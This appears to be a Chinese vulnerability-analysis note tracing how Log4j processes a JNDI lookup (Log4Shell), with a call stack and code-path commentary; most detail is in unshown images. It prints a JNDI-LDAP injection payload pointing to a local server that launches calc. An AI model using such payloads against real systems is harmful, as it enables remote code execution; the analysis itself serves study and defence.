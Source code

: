 ```plain
callAppender:84, AppenderControl (org.apache.logging.log4j.core.config)
callAppenders:540, LoggerConfig (org.apache.logging.log4j.core.config)
processLogEvent:498, LoggerConfig (org.apache.logging.log4j.core.config)
log:481, LoggerConfig (org.apache.logging.log4j.core.config)
log:456, LoggerConfig (org.apache.logging.log4j.core.config)
log:63, DefaultReliabilityStrategy (org.apache.logging.log4j.core.config)
log:161, Logger (org.apache.logging.log4j.core)
tryLogMessage:2205, AbstractLogger (org.apache.logging.log4j.spi)
logMessageTrackRecursion:2159, AbstractLogger (org.apache.logging.log4j.spi)
logMessageSafely:2142, AbstractLogger (org.apache.logging.log4j.spi)
logMessage:2017, AbstractLogger (org.apache.logging.log4j.spi)
logIfEnabled:1983, AbstractLogger (org.apache.logging.log4j.spi)
error:740, AbstractLogger (org.apache.logging.log4j.spi)
main:9, Test
```

看lookup处的jndi

![](https://cdn.nlark.com/yuque/0/2025/png/36112066/1747714513190-ced4e9a6-39f2-46dc-aa7f-ebb7256f3f95.png)

前面一些封装的过程跳过

<font style="color:rgb(51, 51, 51);background-color:rgb(247, 247, 247);">org.apache.logging.log4j.core.pattern.MessagePatternConverter#format</font>

![](https://cdn.nlark.com/yuque/0/2025/png/36112066/1747714881073-816642fb-292d-4cb4-8225-9a28d6ebf721.png)

workingBuilder存放日志的格式化数据

workingBuilder.append(this.config.getStrSubstitutor().replace(event, value));

把${jndi:ldap://127.0.0.1:1389/Basic/Command/calc}截取出来

然后到了replace（）调用substitute（）

![](https://cdn.nlark.com/yuque/0/2025/png/36112066/1747715193235-0c7edb7d-8b8d-4142-9e1b-349914bd2a14.png)

递归截取${}

![](https://cdn.nlark.com/yuque/0/2025/png/36112066/1747715303181-4a85824a-0154-44f6-81ac-7fb2b084b316.png)

再到 resolveVariable 解析器

![](https://cdn.nlark.com/yuque/0/2025/png/36112066/1747715476117-b6285898-ede4-4e2b-8503-b7857a08e07a.png)

后续lookup 

<font style="color:rgb(51, 51, 51);">就是通过</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(247, 247, 247);">:</font>`<font style="color:rgb(51, 51, 51);">分割前面的关键词</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(247, 247, 247);">jndi</font>`<font style="color:rgb(51, 51, 51);">部分和后面的</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(247, 247, 247);">payload</font>`<font style="color:rgb(51, 51, 51);">内容部分，再获取解析器，通过解析器去</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(247, 247, 247);">lookup</font>`

![](https://cdn.nlark.com/yuque/0/2025/png/36112066/1747716025154-f8cea9b9-d1d2-4751-b8a9-875d929360c6.png)
